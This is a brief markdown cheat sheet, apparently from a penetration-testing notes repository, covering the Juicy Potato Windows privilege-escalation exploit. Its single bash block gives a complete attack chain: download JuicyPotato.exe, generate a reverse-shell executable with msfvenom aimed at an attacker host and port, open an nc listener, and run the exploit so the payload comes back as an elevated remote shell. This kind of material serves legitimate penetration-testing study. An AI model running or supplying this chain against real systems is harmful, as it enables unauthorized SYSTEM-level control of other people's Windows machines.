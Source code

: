 <p align="right">
  <a href="/README.md">Home Page</a> |
  <a href="/CheatSheets/exploit.md#table-of-contents">Top of Page</a> |
  <a href="/CheatSheets/exploit.md#juicy-potato">Bottom of Page</a>
</p>

# Cheatsheets - Exploits
## Table of Contents
* [Juicy Potato](#juicy-potato)

## Juicy Potato
```bash
# download it
wget https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe

# upload it
# ftp, smb, http, etc.

# create a reverse shell and then upload it to the target
msfvenom -p windows/shell_reverse_tcp LHOST=$LHOST LPORT=$LPORT -f exe -o reverse-shell.exe
sudo nc -nvlp $LPORT

# run Juicy Potato and check your reverse shell
JuicyPotato.exe -l 5050 -p C:\path\to\reverse-shell.exe -t *
```
